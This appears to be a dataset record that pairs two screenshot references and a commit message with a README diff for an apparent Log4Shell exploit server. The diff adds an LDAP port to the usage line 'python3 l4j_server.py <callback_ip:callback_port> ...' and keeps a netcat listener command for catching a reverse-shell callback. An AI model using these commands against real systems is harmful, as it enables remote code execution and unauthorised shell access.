

Updated menu and screens for new option

Changed region(s): [[0.0, 0.0, 0.92, 0.4627], [0.0, 0.694, 0.9814, 0.9831], [0.0, 0.5494, 0.4294, 0.6072]]

diff --git a/README.md b/README.md
@@ -34,7 +34,7 @@ tar -xvf jdk-8u202-linux-x64.tar.gz
 
 ## Usage
 ```
-python3 l4j_server.py <callback_ip:callback_port> <HTTP_server_port>
+python3 l4j_server.py <callback_ip:callback_port> <HTTP_server_port> <LDAP_server_port>
 
 nc -lnvp <callback_port>
 
